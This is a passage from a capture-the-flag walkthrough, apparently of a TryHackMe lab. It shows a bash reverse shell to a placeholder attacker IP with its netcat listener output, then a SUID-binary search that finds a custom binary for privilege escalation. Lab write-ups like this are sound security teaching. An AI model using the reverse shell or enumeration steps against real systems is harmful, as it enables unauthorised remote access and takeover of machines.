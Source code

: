 - Now switch to more stable shell and let's look for flags.

  ```
  bash -c 'exec bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1'

  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.13.84] 34260
  bash: cannot set terminal process group (806): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@ip-10-10-13-84:/home$ whoami
  whoami
  www-data
  ```

---

## 🧍 User Privilege Escalation

- We can't read any flag as user `www-data` so I started enumerating the machine and found this bad boi `/usr/sbin/pwm`.

  ```
  www-data@ip-10-10-13-84:/home/think$ find / -perm -u=s -type f 2>/dev/null
  /snap/snapd/19457/usr/lib/snapd/snap-confine
  /snap/core20/1950/usr/bin/chfn
  /snap/core20/1950/usr/bin/chsh
  /snap/core20/1950/usr/bin/gpasswd
  /snap/core20/1950/usr/bin/mount
  /snap/core20/1950/usr/bin/newgrp
  /snap/core20/1950/usr/bin/passwd
  /snap/core20/1950/usr/bin/su
  /snap/core20/1950/usr/bin/sudo
  /snap/core20/1950/usr/bin/umount
  /snap/core20/1950/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /snap/core20/1950/usr/lib/openssh/ssh-keysign
  /snap/core20/1974/usr/bin/chfn
  /snap/core20/1974/usr/bin/chsh
  /snap/core20/1974/usr/bin/gpasswd
  /snap/core20/1974/usr/bin/mount
  /snap/core20/1974/usr/bin/newgrp
  /snap/core20/1974/usr/bin/passwd
  /snap/core20/1974/usr/bin/su
  /snap/core20/1974/usr/bin/sudo
  /snap/core20/1974/usr/bin/umount
  /snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /snap/core20/1974/usr/lib/openssh/ssh-keysign
  /usr/lib/policykit-1/polkit-agent-helper-1
  /usr/lib/openssh/ssh-keysign
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/sbin/pwm
  /usr/bin/at
  /usr/bin/fusermount
  /usr/bin/gpasswd
  /usr/bin/chfn
  /usr/bin/sudo
  /usr/bin/chsh
  /usr/bin/passwd
  /usr/bin/mount
  /usr/bin/su
  /usr/bin/newgrp
  /usr/bin/pkexec
  /usr/bin/umount
  ```
  